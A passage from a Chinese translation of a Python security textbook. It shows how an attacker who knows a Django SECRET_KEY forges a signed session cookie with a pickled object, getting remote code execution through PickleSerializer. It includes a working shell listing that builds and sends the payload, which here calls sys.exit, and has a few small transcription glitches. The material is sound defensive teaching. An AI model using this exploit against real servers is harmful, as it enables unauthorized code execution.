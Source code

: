 假设 vulnerable.alice.com 用 `PickleSerializer` 序列化基于 cookie 的会话。心怀不满的 vulnerable.alice.com 前雇员马洛里还记得 `SECRET _KEY` 。她对 vulnerable.alice.com 进行了一次攻击，计划如下:

1.  写恶意代码

2.  用 HMAC 函数和 `SECRET_KEY` 对恶意代码进行哈希运算

3.  将恶意代码和哈希值作为会话 cookie 发送给 vulnerable.alice.com

4.  坐下来看 vulnerable.alice.com 执行马洛里的恶意代码

首先，Mallory 编写恶意 Python 代码。她的目标是骗 vulnerable.alice.com 执行这段代码。她安装 Django，创建 `PickleSerializer` ，将恶意代码序列化为二进制格式。

接下来，Mallory 对序列化的恶意代码进行哈希处理。她使用 HMAC 函数和 `SECRET_KEY` ，以与服务器哈希会话状态相同的方式实现这一点。Mallory 现在有了恶意代码的有效哈希值。

最后，Mallory 将序列化的恶意代码与哈希值配对，将它们伪装成基于 cookie 的会话状态。她将有效载荷作为请求报头中的会话 cookie 发送给 vulnerable.alice.com。不幸的是，服务器成功地验证了 cookie 毕竟，恶意代码是用服务器使用的同一 `SECRET_KEY` 哈希的。认证 cookie 后，服务器用 `PickleSerializer` 反序列化会话状态，无意间执行了恶意脚本。马洛里已经成功实施了一次*远程代码执行攻击*。图 7.3 说明了马洛里的攻击。

![CH07_F03_Byrne](img/CH07_F03_Byrne.png)

图 7.3 Mallory 使用一个受损的 SECRET_KEY 来执行远程代码执行攻击。

下面的例子展示了 Mallory 如何从一个交互式 Django shell 中执行远程代码执行攻击。在这次攻击中，马洛里通过调用 `sys.exit` 函数，诱骗 vulnerable.alice.com 杀死自己。马洛里在一个方法中调用了 `sys.exit` ， `PickleSerializer` 在反序列化她的代码时会调用这个方法。Mallory 使用 Django 的 `signing` 模块对恶意代码进行序列化和哈希处理，就像一个基于 cookie 的会话引擎。最后，她使用 `requests` 包发送请求。对请求没有响应；收件人(粗体)就这么死了:

```py
$ python manage.py shell
>>> import sys
>>> from django.contrib.sessions.serializers import PickleSerializer
>>> from django.core import signing
>>> import requests
>>> 
>>> class MaliciousCode:
...     def __reduce__(self):                                              ❶
...         return sys.exit, ()                                            ❷
... 
>>> session_state = {'malicious_code': MaliciousCode(), }
>>> sessionid = signing.dumps(                                             ❸
...     session_state,                                                     ❸
...     salt='django.contrib.sessions.backends.signed_cookies',            ❸
...     serializer=PickleSerializer)                                       ❸
>>> 
>>> session = requests.Session()
>>> session.cookies['sessionid'] = sessionid
>>> session.get('https:/./vulnerable.alice.com/')                           ❹
Starting new HTTPS connection (1): vulnerable.com
http.client.RemoteDisconnected: Remote end closed connection without response❺
```

❶ Pickle 在反序列化时调用这个方法。

❷用这行代码结束了自己。
